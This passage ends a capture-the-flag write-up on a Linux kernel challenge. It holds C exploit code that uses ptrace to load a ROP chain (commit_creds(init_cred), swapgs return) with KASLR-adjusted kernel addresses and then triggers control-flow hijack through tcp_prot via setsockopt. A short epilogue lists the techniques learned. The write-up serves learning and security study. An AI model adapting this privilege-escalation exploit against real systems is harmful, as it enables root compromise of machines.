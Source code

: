 ```c
            perror("waitpid");
            return;
        }
        
        ptrace(PTRACE_GETREGS, pid, NULL, &regs);

        size_t non_canonical= 0xdddddddddddddddd;
        size_t init_cred    = 0xffffffff8203ade0 - 0xffffffff81000000 + KASLR;
        size_t commit_creds = 0xffffffff8109b810 - 0xffffffff81000000 + KASLR;
        size_t rdi          = 0xffffffff815deabd - 0xffffffff81000000 + KASLR;
        size_t prot         = 0xffffffff82160180 - 0xffffffff81000000 + KASLR;
        size_t swap_gs      = 0xffffffff81a00f46 - 0xffffffff81000000 + KASLR;
        size_t gadget       = 0xffffffff817bf06b - 0xffffffff81000000 + KASLR;

        regs.rdi = 0xdeadbeefdeadeee0;
        regs.rip = non_canonical;
        regs.rsp = prot+0xb0;
        regs.rdi = prot+0x8;            // RSP
        regs.rsi = 0xdeadbeef0000000a;          
        regs.rdx = 0xdeadbeef00000009;          
        regs.rcx = non_canonical;       // ROP11 && must be non-canonical && same as regs.rip
        regs.rax = 0xdeadbeef00000007;
        regs.r8  = 0xdeadbeef00000006;          
        regs.r9  = gadget;              // RIP
        regs.r10 = user_sp;  // ROP7
        regs.r11 = user_rflags;         // ROP6
        regs.rbx = user_cs;             // ROP5
        regs.rbp = main;                // ROP4
        regs.r12 = swap_gs;             // ROP3
        regs.r13 = commit_creds;        // ROP2
        regs.r14 = init_cred;           // ROP1
        regs.r15 = rdi;                 // ROP0

        // debug();
        ptrace(PTRACE_SETREGS, pid, NULL, &regs);
        ptrace(PTRACE_CONT, pid, 0, 0);
        ptrace(PTRACE_DETACH, pid, 0, 0);
        sleep(1);

        setsockopt(fd, SOL_TCP, 0x99999999, prot+120, 0x99999999);
        success("WTF");
    }
}
```


# 0x04. Epilogue

This chal is so different from the kernel challenge I solved since it forcus on more basic things instead of kernel heap. I learned so much about these basic things, including:    
- `syscalls`, `sysret`, `ireq`, 
- idt: `#gp`, `#df`
- Prefetch attach and `pti`
- Setting `$GS` in user land
- Use `tcp_prot` to get control flow hijacking
